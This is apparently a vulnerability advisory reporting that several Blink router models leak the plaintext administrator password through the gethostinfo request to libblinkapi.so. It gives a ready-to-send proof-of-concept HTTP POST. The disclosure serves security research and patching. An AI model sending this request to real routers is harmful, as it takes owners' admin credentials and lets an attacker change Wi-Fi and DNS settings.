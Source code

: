 # Information Exposure Vulnerabilities in Various Blink Router Models

BUG_Author: waiwai

Vendor：[Blink](https://www.b-link.net.cn/)

Product: Multiple routers using libblinkapi.so component, including BL-AX5400P V1.0.19, BL-AX1800 V1.0.19, BL-AC3600 V1.0.22, BL-WR9000 V2.4.9, BL-AC1900 V1.0.2, BL-AC2100_AZ3 V1.0.4.

Vulnerability Files: libblinkapi.so

## Description

Multiple Blink routers contain a severe information disclosure vulnerability in the bs_GetHostInfo function within the libblinkapi.so shared library. When processing gethostinfo requests, this function directly returns a large amount of sensitive information to the client, including the administrator's plaintext password.After obtaining administrator privileges, attackers can perform the following malicious operations.Modify any router configuration, such as Wi-Fi passwords, DNS settings, etc.

## POC

```
POST /cgi-bin/lighttpd.cgi HTTP/1.1
Host: 192.168.2.2
Accept-Language: zh-CN,zh;q=0.9
Cookie: user=admin
Referer: http://192.168.2.2/html/index.html
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: application/json, text/plain, */*
Authorization: 1
Content-Type: application/x-www-form-urlencoded
Origin: http://192.168.2.2
Content-Length: 21

{"type":"gethostinfo"}
```



## Example

BL-AX5400P V1.0.19 Testing ：

![image-20250702113054448](./assets/Information_Exposure_Vulnerabilities_in_Various_Blink_Router_Models/image-20250702113054448.png)

BL-AC3600 V1.0.22 Testing：

![image-20250702113117133](./assets/Information_Exposure_Vulnerabilities_in_Various_Blink_Router_Models/image-20250702113117133.png)
